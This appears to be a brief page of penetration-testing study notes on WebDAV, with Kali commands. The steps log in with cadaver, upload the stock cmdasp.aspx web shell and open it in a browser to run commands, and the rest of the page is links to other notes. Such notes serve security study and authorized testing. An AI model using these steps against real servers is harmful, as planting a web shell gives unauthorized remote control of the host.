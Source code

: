 ![[Pasted image 20220328105716.png]]

#### Login
```bash - kali
cadaver http://$TARGET
```

Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!

#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Login with steps above if needed.

```bash - kali
put cmdasp.aspx cmdasp.aspx
```

Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#WebDav]]

#### File Upload
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Upload file]]

#### Webdav trigger webshell
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Webdav trigger webshell]]




